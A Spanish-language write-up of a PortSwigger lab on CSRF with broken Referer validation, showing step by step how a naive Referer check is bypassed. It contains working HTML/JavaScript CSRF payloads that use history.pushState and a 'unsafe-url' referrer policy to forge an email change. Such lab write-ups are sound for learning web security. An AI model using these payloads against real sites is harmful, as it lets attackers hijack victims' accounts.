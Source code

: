 ```yaml
---
title: "CSRF with broken Referer validation"
description: "Laboratorio de Portswigger sobre CSRF"
date: 2025-03-17 10:11:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CSRF
tags:
  - Portswigger Labs
  - CSRF
  - CSRF with broken Referer validation
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` tiene una funcionalidad de `cambio de correo electrónico` que es `vulnerable` a `CSRF`. Intenta `detectar y bloquear` solicitudes `entre dominios`, pero su `mecanismo de detección` puede ser `evadido`. Para `resolver` el `laboratorio`, debemos usar nuestro `servidor de explotación` para alojar una `página HTML` que realice un `ataque CSRF` y `cambie` el `correo electrónico` del usuario que la visite. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CSRF-Lab-12/image_1.png)

Al pulsar sobre `My account` y nos logueamos con la credenciales `wiener:peter`

![](/assets/img/CSRF-Lab-12/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/CSRF-Lab-12/image_3.png)

Aparte de las defensas que emplean los `CSRF tokens`, algunas aplicaciones hacen uso del `HTTP Referer header` para intentar defenderse de los ataques `CSRF`, normalmente `verificando` que la `solicitud` se `originó` desde el `dominio` de la `aplicación`. Este enfoque generalmente es `menos efectivo` y suele ser susceptible de ser `eludido`

El `HTTP Referer header` es una `cabecera de solicitud opcional` que `contiene` la `URL` de la `página web` desde la que proviene una `solicitud`. Normalmente, `los navegadores la agregan automáticamente cuando un usuario desencadena una solicitud HTTP`, ya sea al hacer `clic` en un `enlace` o al `enviar` un `formulario`. Existen varios métodos que permiten que `la página desde la que proviene la solicitud retenga o modifique el valor del Referer header`, lo cual, se hace a menudo por razones de `privacidad`

Si nos `abrimos` las `herramientas de desarrollador` de `Chrome` vemos que el atributo `SameSite` tiene el valor `None`

![](/assets/img/CSRF-Lab-12/image_4.png)

`Inspeccionamos` la forma en la que se `crea` el `formulario` de `cambio` de `email` para `usarlo` como `plantilla` a la hora de `construir` nuestro `payload`

![](/assets/img/CSRF-Lab-12/image_5.png)

`Creamos` el `payload` y lo `copiamos` en el `Exploit server`

```
<html>
  <body>
    <form action="https://0a38008204f6d4ef9c0ef998009e00c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
         document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_6.png)

Al hacer `click` en `View exploit` el ataque no funciona y nos `arroja` este `mensaje`

![](/assets/img/CSRF-Lab-12/image_7.png)

Si nos dirigimos a la `extensión` de `Burp Suite Logger++` y revisamos la `petición` que acabamos de realizar, vemos que la cabecera `Referer` hace referencia a nuestro `servidor de exploits`

![](/assets/img/CSRF-Lab-12/image_8.png)

Si nos fijamos en la `petición` que hemos hecho al `principio` de `cambio` de `email`, vemos que esa `sí que ha sido exitosa` y que la `única diferencia` con la actual es el `valor` de la cabecera `Referer`

![](/assets/img/CSRF-Lab-12/image_9.png)

Algunas `aplicaciones` validan el `header Referer` de una forma `ingenua`, lo que permite que sea `evadido`. Por ejemplo, si la `aplicación` verifica que el `dominio` en el `Referer` comienza con un `valor esperado`, un `atacante` puede `colocar` ese valor como un `subdominio` dentro de su propio `dominio`

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la `aplicación` solo `valida` que el `Referer` contiene su `nombre de dominio`, un `atacante` puede `colocar` el `valor requerido` en otra parte de la `URL`

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

Aunque podamos `identificar` este `comportamiento` usando `Burpsuite`, a menudo descubriremos que este `enfoque` deja de `funcionar` al probar nuestro `PoC` en un `navegador`. Esto se debe a que para `reducir` el `riesgo` de que se `filtren datos sensibles` de esta manera, muchos `navegadores` ahora `eliminan` la `cadena de consulta (?vulnerable-website.com)` de la cabecera `Referer` por defecto

Podemos `anular` este `comportamiento` añadiendo la cabecera `Referrer-Policy: unsafe-url` a nuestro `exploit`. Esto garantiza que se envíe la `URL completa`, incluida la `cadena de consulta (?vulnerable-website.com)`

En este caso, la `primera forma` no es viable porque el `servidor de explotación` que nos proporcionan `no lo permite`. Sin embargo, la `segunda forma` sí funciona, ya que la `web` solo valida si el `Referer` contiene el `nombre del dominio`, sin importar si hay `otras cadenas` en la `URL`

![](/assets/img/CSRF-Lab-12/image_10.png)

De acuerdo con la `documentación` de `Mozilla` [https://developer.mozilla.org/en-US/docs/Web/API/History/pushState](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState) con `history.pushState(state, unused, url)`, podemos `cambiar` la `URL` en el `historial` del `navegador`

```
<html>
  <body>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_11.png)

Al hacer `click` en `View exploit` nuevamente el ataque no funciona y nos `arroja` este `mensaje` otra vez

![](/assets/img/CSRF-Lab-12/image_12.png)

Si `inspeccionamos` la `petición` vemos que no se ha añadido `/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net` a la `URL`

![](/assets/img/CSRF-Lab-12/image_13.png)

Como mencionamos anteriormente, podemos `anular` este `comportamiento` usando la cabecera `Referrer-Policy: unsafe-url`. Para indagar más profundamente podemos `consultar` la `documentación` de `Mozilla` [https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy](https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy)

```
<html>
  <body>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_14.png)

Si pulsamos sobre `View exploit` veremos que `no nos arroja ningún error` y nos `cambia` el `email` correctamente. Para `completar` el `laboratorio` debemos `cambiar` nuestro `email` o cambiar el `email` usado en el `payload` debido a que `no puede haber dos usuarios con el mismo email`

![](/assets/img/CSRF-Lab-12/image_15.png)
